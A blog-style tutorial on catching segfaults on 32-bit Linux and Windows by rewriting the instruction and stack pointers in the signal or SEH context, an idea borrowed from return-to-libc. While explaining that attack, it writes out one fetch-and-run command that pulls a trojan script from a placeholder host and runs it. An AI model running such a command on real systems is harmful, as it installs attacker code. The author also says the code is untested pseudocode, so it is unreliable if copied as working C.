 Cleanly recovering from Segfaults under Windows and Linux (32-bit)
## two brief- three. three brief notes.

First. Windows calls 'em access violations, Linux calls 'em segfaults. I'm a linux person, so I'll
go with segfaults. They're the same thing though.

Second. My code may look like C, but since it's ported from a decidedly not-C language and
I didn't actually test it to see if it compiles, you should treat it like pseudocode.
_Caveat lector_. (look ma I'm classy)

Third, a warning. For me, in almost every case of segfaults, they arise due to a null pointer dereference.
These are basically harmless. However, the remaining cases tend to be _really really destructive_
things like buffer overflows, that can end up corrupting memory basically at random.
**When you attempt to recover from segfaults, you are playing with fire**. That said, moving on ..

## the problem

Segfault crashes are annoying. Most exceptions can be caught, but segfaults are the archetypal
instant/total crash. Ways of handling them tend to rely on system-specific methods and have their
own idiosyncracies. In this article I'm gonna outline how to recover from segfaults under Linux
(probably at least some other POSIX systems as well) as well as Windows (32-bit each). Interestingly,
the approach is quite similar, and should generalize to 64-bit systems with minor prodding assuming
you're familiar with the 64-bit version of cdecl.

## the basic idea

Both Windows and Linux let you define handler functions that are executed when a segfault occurs.
In theory we could throw an exception right from the handler, but this is **highly iffy**
because the operating system treats "the state of being in a handler function" as special.
We can't return from the handler function either, because that'll just bring us back to the
crash site. Instead, we need to take a page out of the Black Hat Book.

## return-to-libc

Almost all exploits are concerned primarily with getting the target computer to execute arbitrary
code. Buffer overflows let you overwrite variables, but they usually don't let you change _code_,
because assembler code does not live on the stack. There's a trick to bypass this, though,
and it's called the return-to-libc attack.

Basically, it would be enough if we could call one C library function with arbitrary arguments.
For instance, the function could be system() and the argument could be
`wget http://crackedserver.cc/trojan.sh && sh -c trojan.sh`. But we can't change code, so
we cannot insert a call instruction, even with a buffer overflow.

We can, however, reuse a call instruction that's already there.

Did you know that the "ret" instruction works like a jump that takes its address from the stack?

The way function calls work is, the "call" instruction pushes the next instruction address
after the "call" onto the stack (in most cases, the same stack as used for static buffers
, although some rare architectures have dedicated instruction stacks [and thus
are immune to this attack]), then executes a jump to the target function. Symmetrically,
the "ret"[urn] instruction simply pops an address from the stack and jumps to it.

Knowing this, our attack is simple: use a buffer overflow to overwrite the return address of the
current function with `&system`, and provide the appropriate arguments for it. This is made easier
by the fact that for historical reasons, most stacks grow _downwards_, as opposed to static buffers
on the stack, which naturally grow upwards.

We are going to make use of a similar approach.

## applying this to segfault recovery

We want the segfault handler to execute arbitrary code without being limited to what the OS
deems "safe" for handlers. For that, we need to execute a jump to the address of our userspace
(non-handler, though of course the handler is not run in kernel space)
handler function. But we can't rewrite the callsite.

We _can_ rewrite the stack. And we have one "ret" instruction available.

On both Windows and Linux, the segfault handler function is passed a "context struct", which
includes the state of the registers at the failure site. Ostensibly, this is so people can
repair the problem that caused the segfault (it also lets you do nifty things like userspace
segment handling). However, what we're going to do is to set up an imitation of the effects
of a call instruction on the stack (`push ip`), then rewrite the instruction pointer in that struct
and let the operating system's return to user code do the work for us - instead of returning to the
failing code, it's going to return to a handler function.

Enough talk. Bring the code!

## the code

### linux

    #include "signal.h"
    void seghandle_userspace() {
      // note: because we set up a proper stackframe,
      // unwinding is safe from here.
      // also, by the time this function runs, the
      // operating system is "done" with the signal.
      
      // choose language-appropriate throw instruction
      // raise new MemoryAccessError "Segmentation Fault";
      // throw new MemoryAccessException;
      // longjmp(erroneous_exit);
      // asm { int 3; }
      *(int*) NULL = 0;
    }
    enum X86Registers {
      GS, FS, ES, DS, EDI, ESI, EBP, ESP, EBX, EDX, ECX, EAX,
      TRAPNO, ERR, EIP, CS, EFL, UESP, SS
    }
    void seghandle(int sig, void* si, void* unused) {
      ucontext_t* uc = (ucontext_t*) unused;
      // No. I refuse to use triple-pointers.
      // Just pretend ref a = v; is V* ap = &v;
      // and then substitute a with (*ap).
      ref gregs = uc->uc_mcontext.gregs;
      ref eip = (void*) gregs[X86Registers.EIP],
      ref esp = (void**) gregs[X86Registers.ESP];
      
      // imitate the effects of "call seghandle_userspace"
      esp --; // decrement stackpointer.
              // remember: stack grows down!
      *esp = eip;
      
      // set up OS for call via return, like in the attack
      eip = (void*) &seghandle_userspace;
    }
    void setup_segfault_handler() {
      struct sigaction sa;
      sa.flags = SA_SIGINFO;
      sigemptyset (&sa.mask);
      sa.sigaction = &seghandle;
      if (sigaction(SIGSEGV, &sa, NULL) == -1) {
        fprintf(stderr, "failed to setup SIGSEGV handler\n");
        exit(1);
      }
    }

So on SIGSEGV, `seghandle` is called (as a signal handler), rewrites the signal's instruction address
to `seghandle_userspace`, then returns to the OS, which in returning to user code jumps to
`seghandle_userspace`, which then throws an exception or does whatever else it likes.

### windows

Under Windows, this is slightly more involved. (Of course it is. Have you seen the size of a
typical winapi function as compared to POSIX?)

What surprised me though, was how similar the approach is under Windows. The Linux approach can almost
be copied 1:1.

Big credit goes to Matt Pietrek and the highly valuable [crash course on the Depths of Win32™
SEH](http://www.microsoft.com/msj/0197/exception/exception.aspx).

Basically, Windows uses SEH (Structured Exception Handling) to cope with critical errors.
You've seen SEH before - the default SEH handler is the "This application has stopped working"
pop-up.
SEH handlers are tracked with a linked list stored in `FS[0]`. This is
the one part where you may need some assembler, or use your compiler's built-in primitives
(`_try`/`_except`) where provided. I'm going to assume that `_try`/`_except` is not available.

Okay. When a SEH error happens under Windows, the operating system grabs the list of handlers
from `FS[0]`, then queries them in order to see if any of them will handle the error. Handlers
have the choice to say "keep looking", "return to user code" or "invoke exception handler".

A useful note: if we pass over an exception and let the operating system handle it, it will call
our handler again with EH_UNWINDING set. Since the other parameters will be unchanged,
and the function probably won't try to suddenly handle an exception it just passed over,
this mostly need not concern us.

The code!

      #include "winbase.h"
      #include "windows.h"
      #include "excpt.h"
      void seghandle_userspace() {
        // see above re. what to do now
        *(int*) NULL = 0;
      }
      EXCEPTION_DISPOSITION seghandle
      (_EXCEPTION_RECORD* record, void* establisher_frame,
       _CONTEXT* context, void* dispatcher_context
      ) {
        // see above
        ref
          esp = (void**)context.Esp,
          eip = (void* )context.Eip;
        // imitate the effects of "call seghandle_userspace"
        // stack grows down under windows, too
        esp --;
        *esp = eip;
        // rewrite eip for return-to-lib, same as linux
        eip = (void*) &seghandle_userspace;
        // and back to user code.
        return ExceptionContinueExecution;
      }
      void setup_segfault_handler() {
        _EXCEPTION_REGISTRATION reg;
        // Note: this bit will require assembly.
        // Consult your compiler vendor documentation.
        reg.prev = FS[0];
        reg.handler = &seghandle;
        FS[0] = &reg;
        // note: do this on exit
        // fs[0] = ((_EXCEPTION_REGISTRATION) fs[0]).prev;
      }
